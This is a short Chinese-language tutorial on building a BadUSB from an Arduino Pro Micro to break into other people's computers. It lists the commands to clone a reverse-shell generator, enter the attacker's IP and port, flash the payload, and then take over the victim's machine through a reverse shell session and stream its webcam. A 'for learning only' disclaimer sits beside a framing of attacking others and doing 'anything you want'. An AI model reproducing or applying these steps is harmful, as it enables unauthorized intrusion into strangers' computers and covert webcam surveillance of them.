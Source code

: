 # 用BadUSB物理入侵别人的电脑

## 原理

*  把恶意代码烧录进BadUSB的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。
* 把带有恶意代码的BadUSB插入目标电脑中，生成反向Shell会话
* 远程电脑登陆Shell进行各种操作，比如操纵摄像头等...（仅供学习，不要干坏事哦）

## 制作BadUSB

1. 买一块迷你型的Arduino开发板： Arduino Pro Micro（Atmega32U4）
2. 买一个microUSB的转接头
3. 自制一个好看的外壳...

## 将恶意代码烧录进BadUSB

* 打开Kail Linux，作为攻击方电脑
* git clone [https://github.com/christofersimbar/Arduino-Reverse-Shell-Generator.git](https://github.com/christofersimbar/Arduino-Reverse-Shell-Generator.git)
* cd Arduino-Reverse-Shell-Generator
* sudo ruby reverse\_powershell\_arduino.rb
* 输入攻击方的机器ip和自定义端口，一路回车，最终生成Arduino烧录用的脚本并自动启动反向Shell监听
* 用ArduinoIDE烧录恶意代码

## 进行攻击。。。

* 将BadUSB插入目标电脑，有杀毒软件是不行的 😀
* 回到刚刚烧录代码的Kail Linux机器，应该可以看到已经连接上目标电脑了
* 输入 sessions -i 1  进入目标电脑系统
* 输入 webcam\_list  扫描可用的摄像头
* 输入 webcam\_stream 1 打开目标摄像头...
* or anything you want...

## Github地址

* [https://github.com/christofersimbar/Arduino-Reverse-Shell-Generator](https://github.com/christofersimbar/Arduino-Reverse-Shell-Generator)



